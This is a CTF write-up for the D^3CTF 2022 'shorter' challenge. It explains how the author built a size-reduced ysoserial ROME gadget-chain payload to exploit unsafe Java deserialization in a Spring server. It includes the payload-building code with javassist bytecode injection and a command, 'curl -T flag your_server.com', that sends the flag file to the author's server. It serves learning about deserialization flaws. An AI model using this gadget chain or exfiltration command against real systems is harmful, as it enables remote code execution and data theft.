

# Challenge Infos

CTF: D^3CTF 2022

Base Score: 1000

Adjusted Score: 361.29

Description: make it shorter !

Attachment: `shorter.zip`

# Summary
If you want to know how I solved this challenge step-by-step, skip this summary and start reading at the section [How I solved it](#how-i-solved-it).

The goal of this challenge was to exploit untrusted deserialization of a user provided java object. I had to provide the payload to the challenge server encoded in base64 which couldn't exceed a length of **1956** characters. My exploit to get the flag is based on the **ysoserial** `ROME` payload.

These methods will be called upon deserialization of the payload from bottom to top:

```Java
/**
 *
 * TemplatesImpl.getOutputProperties()
 * NativeMethodAccessorImpl.invoke0(Method, Object, Object[])
 * NativeMethodAccessorImpl.invoke(Object, Object[])
 * DelegatingMethodAccessorImpl.invoke(Object, Object[])
 * Method.invoke(Object, Object...)
 * ToStringBean.toString(String)
 * ToStringBean.toString()
 * ObjectBean.toString()
 * EqualsBean.beanHashCode()
 * ObjectBean.hashCode()
 * HashMap<K,V>.hash(Object)
 * HashMap<K,V>.readObject(ObjectInputStream)
 *
 * @author mbechler
 *
 */
 ```
 
 To get these methods to execute the bytecode in the payload this arrangement of objects is required:
 ```Java
 Object o = createTemplatesImpl();
ObjectBean objBean1 = new ObjectBean(Templates.class, o);
ObjectBean objBean2  = new ObjectBean(ObjectBean.class, objBean1);
return makeMap(objBean2);
 ```
 
 `makeMap()` creates a HashMap containing objBean2 without calling the hash method on it. (This would execute the exploit)
 To get the payload below **1956 bytes** the code must be compiled with the `-g:none` flag to disable debug information in the class files. Additionally, some changes need to be made to `createTemplatesImpl()`. My custom `createTemplatesImppl()`:
 
 ```Java
 public static <T> T createTemplatesImpl ( Class<T> tplClass, Class<?> abstTranslet )
    throws Exception {
    final T templates = tplClass.newInstance();
    ClassPool pool = ClassPool.getDefault();
    pool.insertClassPath(new ClassClassPath(F.class));
    pool.insertClassPath(new ClassClassPath(abstTranslet));
    final CtClass clazz = pool.get(F.class.getName());
//        String cmd = "java.lang.Runtime.getRuntime().exec(\"curl -T flag your_server.com\");";
    String cmd = "java.lang.System.exit(33);";
    clazz.makeClassInitializer().insertAfter(cmd);
    clazz.setName("o");
    CtClass superC = pool.get(abstTranslet.getName());
    clazz.setSuperclass(superC);
    byte[] classBytes = clazz.toBytecode();
    try (FileOutputStream fos = new FileOutputStream("exploit.class")) {
        fos.write(classBytes);
    }
    System.out.println("Length of raw bytecode: " + classBytes.length);
    Field bytecodes = tplClass.getDeclaredField("_bytecodes");
    bytecodes.setAccessible(true);
    byte[] secondClassBytes = classAsBytes(F.class);
    System.out.println("Second class byte length:" + secondClassBytes.length);
    bytecodes.set(templates, new byte[][] {
            classBytes, secondClassBytes
    });
    setField(templates, "_name", "_");
    return templates;
}
```

Noteable changes:
* Both `Foo` and `StubTransletPayload` have been replaced by an empty class `F`
* The exploit is inserted into the static section of this empty class using **javassist**
* The new `StubTransletPayload` extends `AbstractTranslet` through bytecode patched by **javassist** and doesn't override all necessary methods to save space
* Most names have been shortened to save space

Finally, to shave off the last few bytes off the payload these private member variables of the `ObjectBean` need to be set to null:
* `objBean1._equalsBean`
* `objBean1._cloneableBean`
* `objBean2._cloneableBean`
* `objBean2._equalsBean._beanClass`
* `objBean2._toStringBean`

The payload can now be serialized and should be below **1956 bytes**.

To see how I came up with all these modifications and to get a more in depth understanding of the payload and the inner workings of java serialization continue reading.

# How I solved it

In this section I will explain step-by-step how I managed to solve this challenge.

## Inspecting the Attachment

I started by looking at the provided files. The ZIP file contained two files:
* `dockerfile`
* `shorter-0.0.1-SNAPSHOT.jar`

### Dockerfile

The dockerfile told me that the flag was stored in the same directory as the jar file in a file named `flag` and that the jar file is run in an **openjdk:8-jre** container (I didn't pay much attention to that at the time).
```Dockerfile
FROM openjdk:8-jre
COPY flag /flag
COPY shorter-0.0.1-SNAPSHOT.jar /shorter-0.0.1-SNAPSHOT.jar
CMD ["java","-jar","/shorter-0.0.1-SNAPSHOT.jar"]
```

### Jar
I opened the jar file in **JD-GUI** to look at the decompiled bytecode. Looking at the main class I saw that it was apparently a **Spring** webserver.


So I continued to look at the `MainController.class` file as it was the only other class in the jar which wasn't from any library.


As you can see, there is one POST and one GET route defined. The GET requests just returns `"hello"` but the POST request is more interesting. The POST request accepts one parameter called `baseStr` which can't be longer than 1956 bytes. This string is then decoded from **base64** to a `byte[]` array. Using the decorator pattern this byte array is then passed through an `ByteInputStream` to an `ObjectInputStream`. A single object is then deserialized from the byte stream by the `readObject()` call. The POST request then returns `"hello"`.

Because nothing is done with the object after deserializing it, it was clear to me that there must exist a vulnerability in the deserialization code of some classes.

## Brushing up my Java serialization knowledge

As I never really worked with serialization in Java I didn't know much besides that classes need to implement the `Serializable` interface. Because I previously found that the vulnerability must lie in the deserialization code I looked up if classes could override their deserialization behaviour and indeed, classes can just write `readObject()` and `writeObject()` methods to control their serialization.

I started to look for classes in the jar which overrode these methods and which had useful behaviour that could be exploited.

## ROME

I then found in the `pom.xml` file a dependency which looked off to me. The library is called **ROME** and is never used. Apparently it's a library for handling RSS/Atom feeds.


Version 1.0 of ROME was apparently released in 2010 so this will most likely be our exploitable library.

I started going through classes in the ROME library but didn't find any interesting `readObject()` methods. While researching I found out that `HashMap` is often used to exploit deserialization of untrusted objects because it calls the `hashCode()` function upon deserialization. I also found a tool called **ysoserial** which my exploit will be based on.

## ysoserial

[Link to repo](https://github.com/frohoff/ysoserial)

**ysoserial** is a tool which can generate payloads for java programs to exploit unsafe object deserialization. I looked through the `payload` directory and saw I file called `ROME.java`. Jackpot.


To try it out, I downloaded the jar and generated a payload using `java -jar ysoserial-master-8eb5cbfbf6-1.jar ROME 'code' > payload.bin`. I used `code` as an example payload because it was the first command I thought of where I could immediately tell that it ran even when I don't see the output (it starts **VS Code**). As expected due to the size limitation in the `MainController.class` the payload was way too big. 4 KB when encoded in base64 to be exact.


To try this payload out I wanted to patch the server jar so that it would accept larger base64 strings. Because some of the class files in the jar were not compressed I couldn't unzip the file using unzip so I used the command `jar xf jarfile`.

I didn't want the hassle of recompiling the class files with all the dependencies so I just opened the `.class` file in a hex editor, searched for the number 1956 and replaced it. There's probably a better solution to this but it did the trick. When I tried to rezip the file I got this error:


To fix this I used `jar uf shorter-0.0.1-SNAPSHOT.jar BOOT-INF/classes/web/challenge/shorter/controller/MainController.class` to copy my patch class file into the jar.

I then tried it out and it worked, the server now accepted larger files. I sent the payload to the server and... nothing happened.

To have more control about how it's executed I wrote a quick java program that takes payload encoded in base64 and deserializes it just as the challenge server does.


(This code can be found in `src/p/PayloadTest.java`)

After adding the ROME library to the project I clicked run in **IntelliJ** (this will be important later) and **VS Code** popped up on my screen. I was a bit relieved that the payload works but also pretty confused on why it isn't working with the provided challenge jar file.

Before trying to set up a spring server to more closely recreate the environment of the challenge I tried to pack my code into a jar file and run it that way. I set up an artifact in **IntelliJ** and ran it using `java -jar payloadtester.jar`. Nothing happened.

I was even more confused than before. I didn't find anything on the internet and decided to boot up my **Windows** vm to run the jar file in there. I made another payload which runs `calc.exe`, ran the jar and it worked??? Finally, it clicked and I realized that I had java 8 in the vm, java 11 set in **IntelliJ** and java 17 in my `path`. I looked back into the `Dockerfile` and saw that the server uses java 8, switched the java version in my path and executed the jar file on my host machine again. It worked, even when using the challenge spring server.


## Recreating the payload

Thankfully, the creator of the payload listed the chain of methods which are called during deserialization.


I created a new class and replicated the objects that make up the payload and learned how the exploit worked under the hood using a debugger. The exploit works by serializing a `HashMap` which hashes the `ObjectBean` classes upon deserialization. The has methods in `ObjectBean` use another class called `ToStringBean` which converts the bean to a string. To do that it needs to process the `TemplateImpl` which is a runtime representation for processed transformation instructions. This template then loads a class which needs to be a `Translet` (which is a java bytecode module for XML transformations). This class is loaded from a byte array which is stored in the `TemplateImpl` that we can control.

This is the code I came up with to create and test the payload:


The `makeMap()` method is required because we can't just create a `HashMap` containing the `ObjectBean` because it would immediately try to calculate hashes for the ObjectBean running our payload. Therefore `ysoserial` used reflection to create this map. I rewrote this method so that it doesn't use their `Reflections` class and to only add one item to the `HashMap` because we need to save space.


The `createTemplatesImpl()` method at this point was the same as in the **ysoserial** repo. After fixing a few (many) bugs the payload worked and I discovered that I saved **22 bytes** by only inserting one object into the `HashMap`. Clearly more needs to be done to cut the size of the payload by more than half.

## Fighting for every byte

To inspect my payload more closely I used a tool called **[SerializationDumper](https://github.com/NickstaDB/SerializationDumper)**. I passed my payload to the jar and it generated a more readable output.


### Removing unused fields

When looking over the code I realized that there were many objects that were never used in the exploit like the `CloneableBean` class or some of the `EqualsBean` classes which aren't used to calculate the hash which executes the exploit. With a bit trial and error I found that I could overwrite these private member variables using reflection on the `ObjectBean`s and the exploit would still work:


Removing these fields removed ~400 bytes from the payload, which wasn't nearly enough.

The next thing I realized was that the injected bytecode was a huge chunk of the payload.


### Reducing the bytecode

Looking at the code which generates the `TemplateImpl` and the bytecode I saw that two classes were needed for the Template.

First, I looked at the second class and its bytecode:


As you can see, most of the data are just strings that specify which classes are used. Because I also saw the string `InnerClasses` I moved the class to its own file and removed the `implements Serializable ` as well as the custom `serialVersionUID`. After that the exploit still worked and the size of the class file went from **439 bytes** to **232 bytes**.


Next I looked at the first class named `StubTransletPayload`.


Applying the previously learned I removed the `Serializable` interface and the `srialVersionUID`. The `extends AbstractTranslet` cannot be removed because otherwise the Template class won't load it. This is bad because every external class that is used is a string with its full path in the bytecode and extending `AbstractTranslet` requires two overrides which need the `DOM`, `SerializationHandler`, `TransletException` and `DTMAxisIterator` class. Making the class file over **1 KB**.



Fortunately I discovered a trick. **yososerial** uses the **javassist** libaray which is useful for generating and injecting bytecode at runtime. Using this library I can set the super class of the `StubTransletPayload` without needing to override the methods normally required for extending `AbstractTranslet`. This way I could use the same empty class as before and programmatically inject the parent class `AbstractTranslet`.

When trying to customize the statically ran code I first tried writing it in the class but soon discovered that `java.lang.Runtime.getRuntime().exec(...)` throws a few exceptions which would need to be caught, further increasing the size of the bytecode.


To solve this I used the same trick as before and injected this line programmatically at runtime using **javassist**.


This code worked without a try catch and reduced the bytecode of the first class to around **400 bytes**.

Generating the payload again it was at around **2500 bytes** which still was too much.

At this point I found **ProGuard** which could obfuscate and shrink jars for deployment on embedded devices. I gave it a try and gound out that their `shrink` option wouldn't reduce the size of the classes but their `obfuscate` option would. Unfortunately, obfuscating the whole jar wasn't an option as library class names would be changed and that wouldn't work on the not obfuscated challenge server.

Not knowing what to do next I took a look at the bytecode again and stumbled upon something interesting. One of the first strings in the `.class` file was `LocalVariableTable` which suggested some kind of debug information.


I looked it up and indeed, java includes debug information by default in their bytecode. Adding `-g:none` to the compile flags immediately reduced the size of the bytecode from **232** to **118 bytes**!


After finding the shortest possible code to send a file to a webserver I regenerated the payload and it now was **1960 bytes** long just **4 bytes** short of the limit. As I couldn't get my injected payload shorter than `java.lang.Runtime.getRuntime().exec(\"curl -T flag your_server.com\");` I looked at the output of `SerializationDumper` again.

### Removing the last unused field

I noticed that at the bottom there was one lonely `_toStringBean`. I knew that the `ToStringBean` was necessaary for the exploit to work but it still looked off to me because there was another `ToStringBean` at the top of the file. I realized that this `ToStringBean` must belong to the second `ObjectBean` and wondered if it was necessary for the exploit to work. The `toString()` was only ever called on the first `ObjectBean`. I removed it and the exploit still worked. The payload now was **1944 bytes** long, barely under the limit of **1956 bytes**.

## Getting the flag

I sent my final payload to the challenge server and it worked like a charm. I immediately got the flag sent to my test server listening to post requests.

# Conclusion

This was my second CTF I ever attended and I found this challenge to be pretty fun. I learned a lot about java bytecode and how java serialization works. I would like to thank my teammates who supported me emotionally during this endeavor.
The source code for my solution can be found under `src/p`.
